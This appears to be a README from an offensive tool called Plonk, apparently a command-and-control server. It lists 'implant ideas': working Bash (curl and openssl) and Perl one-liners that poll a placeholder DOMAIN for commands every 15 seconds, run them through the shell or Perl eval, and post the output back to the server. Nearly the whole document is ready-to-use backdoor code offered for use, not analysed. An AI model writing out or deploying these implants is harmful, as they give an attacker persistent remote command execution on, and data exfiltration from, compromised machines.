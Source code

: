 Implant Ideas
=============
Below is a small collection of implant ideas.  They assume Plonk is listening
for queries to DOMAIN:443.  ImplantIDs are either random or hard-coded to
IMPLANTID.  There's 15 seconds between callbacks.

Shell / cURL
------------
```bash
ID="$RANDOM" while :; do curl -s "https://DOMAIN/t/$ID" | /bin/sh | curl --data-binary @- -s "https://DOMAIN/o/$ID"; sleep 15; done
```

This is particularly noisy with `plonk -verbose`.

Shell / openssl
---------------
```bash
ID="$RANDOM" while :; do
        printf "GET /t/$ID HTTP/1.0\r\n\r\n" |
                openssl s_client -quiet -connect DOMAIN:443 2>/dev/null |
                tr -d '\r' | egrep -v '^$' | tail -n +5 |
                while read tline; do
                        O="$(echo "$tline" | (sh 2>&1))"
                        echo "POST /o/$ID HTTP/1.0\r\nContent-length: ${#O}\r\n\r\n$O" |
                                (openssl s_client -connect DOMAIN:443 >/dev/null 2>&1)
                done
        sleep 15
done
```

Perl
----
```perl
use LWP::Simple;for(;;){if(""eq($t=get("https://DOMAIN/t/IMPLANTID"))){sleep 15;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","https://DOMAIN/o/IMPLANTID",[],Encode::encode("ascii",`$t 2>&1`)));}}
```
Or, to run Perl code and not shell input:
```perl
use LWP::Simple;for(;;){if(""eq($t=get("http://127.0.0.1:8080/t/kittens"))){sleep 4;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","http://127.0.0.1:8080/o/kittens",[],Encode::encode("ascii",eval$t)));}}
```
